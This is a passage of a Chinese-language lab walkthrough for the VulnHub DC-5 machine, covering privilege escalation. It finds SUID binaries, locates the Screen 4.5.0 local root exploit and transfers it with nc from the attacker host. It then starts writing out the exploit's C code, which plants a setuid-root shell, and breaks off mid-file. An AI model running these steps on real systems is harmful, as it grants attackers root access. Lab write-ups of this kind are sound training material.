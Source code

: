
# 后期-提权

升级下
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

找带 suid 的文件
```bash
find / -perm -u=s 2>/dev/null
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC5/11.png)

在 searchsploit 里找到了一个可以提权的，版本正好是 Screen 4.5.0
```
searchsploit -w screen 4.5.0
```

访问 https://www.exploit-db.com/exploits/41154 下载 POC

kali 上发送
```
nc -nlvp 6666 < 41154.sh
```

靶机上接收，并运行
```bash
cd /tmp
nc 192.168.141.134 6666 > 41154.sh
sh 41154.sh
```

等了半天，没有提成功，网上搜了下，其他人的做法是将 poc 拆分开来运行，照着试试看

在 kali 下运行
```bash
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
```